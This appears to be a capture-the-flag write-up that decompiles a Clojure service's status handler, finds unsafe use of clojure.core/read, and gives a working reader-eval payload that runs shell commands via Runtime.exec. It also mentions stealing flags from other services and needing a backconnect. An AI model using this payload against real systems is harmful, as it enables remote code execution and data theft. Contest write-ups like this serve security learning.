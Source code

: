 We also know that .clj files in the jar are not executed, but were included only as a reference. That means that we have to decompile the class files and look at them as well!

My first tool of choice for java decompilation is jd-core, but in this case it fails to decompile the code into readable java. In this cases I use [CFR](http://www.benf.org/other/cfr/) which is dramatically slower, but produces very high quality results. Decompiling the status-handler code (status$status_handler$handler_fn__6356.class), we get the following start:

```java
public final class status$status_handler$handler_fn__6356
extends AFunction {
    Object hostname;
    public static final Var const__0 = RT.var((String)"clojure.core", (String)"read"); // WTFOMG!?
    public static final Var const__1 = RT.var((String)"clojure.core", (String)"spit");
    public static final Keyword const__4 = RT.keyword((String)null, (String)"status");
    public static final AFn const__5 = (AFn)RT.map((Object[])new Object[]{RT.keyword((String)null, (String)"request-type"), RT.keyword((String)null, (String)"status")});
    public static final Var const__6 = RT.var((String)"clojure.core", (String)"str");
    public static final Keyword const__7 = RT.keyword((String)null, (String)"response-type");
    public static final Keyword const__8 = RT.keyword((String)null, (String)"clojure-version");
    public static final Var const__9 = RT.var((String)"clojure.core", (String)"clojure-version");
    public static final Keyword const__10 = RT.keyword((String)null, (String)"hostname");
    public static final Keyword const__11 = RT.keyword((String)null, (String)"banner");
    public static final AFn const__13 = (AFn)RT.map((Object[])new Object[]{RT.keyword((String)null, (String)"response-type"), RT.keyword((String)null, (String)"error")});
```

Bingo! The status-handler actually uses unsafe clojure.core/read, we found the hole. Btw, the data-handler was safe.

## Exploitation

The flags for this service are store in an in-memory hash, so in order to steal them we have to write and execure some clojure code that gets the values we need from memory. The vulnerability also can be leveraged to gain a classic RCE which we used to steal flags for other services (some of them stored the flags in filesystem with lax permissions). The latter is actually a much easier task, so we will do that first

### Gaining RCE

For some reason, the exploit fro the docs (lol!) didn't work for us. We threw together a quick testbed and after a couple of failed attempts came with the following vector:

```clj
#=(eval (. (java.lang.Runtime/getRuntime) exec (into-array ["bash" "-c" "the command goes here"]) ))
```

The #= part directs the clojure reader to use a macro from another table [read more](https://yobriefca.se/blog/2014/05/19/the-weird-and-wonderful-characters-of-clojure/). Detailed explaination of the inner workings of this thing is beyond the scope of this writeup, but #=(eval (CLOJURE CODE HERE) ) is the ultimate way to execute clojure code that worked for us.

The output of the exec is not shown, so a backconnect is needed.
